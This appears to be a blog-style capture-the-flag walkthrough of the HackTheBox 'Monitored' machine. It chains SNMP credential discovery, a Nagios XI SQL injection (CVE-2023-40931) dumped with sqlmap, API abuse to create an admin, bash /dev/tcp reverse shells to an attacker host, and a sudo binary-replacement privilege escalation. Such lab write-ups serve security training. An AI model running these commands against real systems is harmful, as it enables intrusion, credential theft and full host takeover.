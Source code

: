 ```yaml
---
title: "CTF: Monitored (HtB, Linux, Medium)"
excerpt: "A detailed walkthrough of \"Monitored\" machine on HackTheBox."
tagline: ""
header:
  teaser: /docs/assets/images/teasers/ctf/monitored.png
  og_image: /docs/assets/images/teasers/ctf/monitored.png
  overlay_image: /docs/assets/images/teasers/ctf/monitored2.png
author_profile: false
share: true
tags:
  - HackTheBox
  - Linux
  - Difficulty-Medium
  - Nagios XI
  - SQLi
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Monitored" machine on HackTheBox platform that is based on Linux operating system and categorized as "Medium"
by difficulty. The machine has Nagios XI software running on it and involves utilizing a vulnerability chain (including SQL Injection) to establish a foothold on the system. Privilege escalation requires abusing sudo permissions on system scripts.

## Reconnaissance

The reconnaissance part is **extremely** important on this machine and unforgiving to mistakes.
The default **nmap** scan reveals the following services:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

The services of our interest here are http, https and ldap. Attempting to dump credentials from LDAP using anonymous login leads to no result:

```bash
nmap -n -sV --script "ldap*" <IP> -p 389
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/ldapdump.png" alt="">
  <figcaption></figcaption>
</figure>

Here comes the important part, missing which can cause the challenger to enter a rabbit hole. It's necessary to run a UDP scan as there's **SNMP** service running on port 161 UDP. From that service, it's possible to dump SNMP process list. One of the processes will contain **credentials** required to authenticate in Nagios.

The following nmap scan reveals the credentials:

```bash
nmap -sU -sC -sV -T4 <IP> #-sU - UDP Scan; -sC - run default scripts, -sV - enumerate service version, -T4 - scan speed
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/snmpcreds.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://monitored.htb*. You will be presented with the following login page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagiosinitialpage.png" alt="">
  <figcaption></figcaption>
</figure>

It is not possible to login with the discovered credentials there, however, they can be used at Nagios system dashboard located at *https://monitored.htb/nagios/*. Navigate there and enter the credentials in the pop-up window. Successful authentication should present the following page:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/nagioscorelogin.png" alt="">
  <figcaption></figcaption>
</figure>

### CVE-2023-40931

We have achieved authenticated access to Nagios. The time has come for an exhausting vulnerability research. Eventually, it will lead the challenger to this [article](https://outpost24.com/blog/nagios-xi-vulnerabilities/) on Outpost24. It reveals information about CVE-2023-40931 - "SQL Injection in Banner acknowledging endpoint". When a user acknowledges a banner, a POST request is sent to */nagiosxi/admin/banner_message-ajaxhelper.php* with the POST data consisting of the intended action and message ID – *action=acknowledge banner message&id=3*.

The ID parameter is assumed to be trusted but comes directly from the client without sanitization. This leads to a SQL Injection where an authenticated user with low or no privileges can retrieve sensitive data, such as from the *xi_session* and *xi_users* table containing data such as emails, usernames, hashed passwords, API tokens, and backend tickets. This vulnerability does not require the existence of a valid announcement banner ID, meaning it can be exploited by an attacker at any time.

## Weaponization / Exploitation

Firstly, it is necessary to request authentication token for our current user. According to this [thread](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum, it can be done by issuing the following command:

```bash
curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=500'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/authtoken.png" alt="">
  <figcaption></figcaption>
</figure>

Now that the tokes has been received, let's attempt to dump *xi_users* table with **sqlmap**:

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<YOUR TOKEN>" --level 5 --risk 3 -p id --batch -D nagiosxi -T xi_users --dump
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/adminapi.png" alt="">
  <figcaption>sqlmap dump reveals admin API token</figcaption>
</figure>

*xi_users* table cotains Nagios Administrator account API token that can be used to query Nagios API to create a new user with administrative privileges as described on the following [page](https://support.nagios.com/forum/viewtopic.php?p=310411#p310411) on Nagios support forum. The command do to so is the following:

```bash
curl -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<ADMIN API KEY>&pretty=1" -d "username=<DESIRED USERNAME>&password=<DESIRED PASSWORD>&name=adminlol&email=adminlol@localhost&auth_level=admin"
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/createnewadmin.png" alt="">
  <figcaption></figcaption>
</figure>

Navigate to *https://nagios.monitored.htb/nagiosxi/* and login with your newly created account. After accepting license agreement and password change form, the challenger is presented with Nagios administrative dashboard.

## Foothold

Navigate to Configure => Core Config Manager => Commands => Add New

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/coreconfig.png" alt="">
  <figcaption></figcaption>
</figure>

Create a reverse shell command with the following parameters:
* Command type: check
* Check "Active" box
* Enter the reverse shell command in the "Command view" field and click save.

```bash
bash -c 'bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1'
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/shellcommand.png" alt="">
  <figcaption></figcaption>
</figure>


Start a Netcat reverse listener:

```bash
nc -lvnp <PORT SPECIFIED IN REVERSE SHELL COMMAND>
```

In Nagios, navigate to Monitoring => Hosts => localhost. In the Host Managment menu, select the created reverse shell command and click "Run Check Command" as shown on the screenshot:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/runshellcommand.png" alt="">
  <figcaption></figcaption>
</figure>

A reverse shell should be sent to Netcat listener, providing you with a foothold into the system.

### User flag

Find nagios user flag in its home directory.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/userflag.png" alt="">
  <figcaption></figcaption>
</figure>

## Privilege escalation

Check what the current user is able to run with administrative privileges:

```bash
sudo -l
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/sudoloutput.png" alt="">
  <figcaption></figcaption>
</figure>

Among the scripts that appear there is **manage_services.sh**. Display its contents:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/scriptcontents.png" alt="">
  <figcaption></figcaption>
</figure>

It is evident that by executing **manage_services.sh** the user is able to control several services that include **npcd** service. Display the contents of **npcd** service to analyze it:

```bash
systemctl cat npcd
```
The service indicates location of its binary file available by the following path */usr/local/nagios/bin/npcd*. Check permissions on the file:
```bash
ls -l /usr/local/nagios/bin/npcd
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/catnpcdservice.png" alt="">
  <figcaption></figcaption>
</figure>

The current user has write permissions on the **npcd** binary. It is possible to replace contents of the file and execute it with system privileges. On your local machine, create a file called **npcd** with the following contents:

```bash
#!/bin/bash

bash -i >& /dev/tcp/<IP ADDR>/<PORT> 0>&1
```
Open a Netcat listener on the port of your choice. Then, start a Python HTTP server to host your npcd file. On the target system, download it, stop **npcd** service and replace the original **npcd** file located in **/usr/local/nagios/bin/** with the created one:

```bash
# On the Attacker machine:
nc -lnvp <PORT>
python3 -m http.server <PORT> # start HTTP server in the directory where npcd file is located

# On the target machine:
sudo /usr/local/nagiosxi/scripts/manage_services.sh stop npcd # Stop npcd service to be able to replace the binary
wget http://<IP ADDR>:<PORT>/npcd # Download npcd file from HTTP server
mv npcd /usr/local/nagios/bin/  # Move the downloaded file into target directory, replacing the original file
chmod +x /usr/local/nagios/bin/npcd # Assign executable permissions to the file
sudo /usr/local/nagiosxi/scripts/manage_services.sh start npcd # Start npcd service to receive root shell
```
### Root flag

After transferring **npcd** file containing reverse shell command and replacing the original file with it, start **npcd** service again and, if instructions were completed correctly, the Attacker machine will receive a callback with root privileges. Navigate to */root* directory to get the root flag.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/monitored/root.png" alt="">
  <figcaption></figcaption>
</figure>

**Thank you for your attention and happy hacking!**
{: .notice--primary}
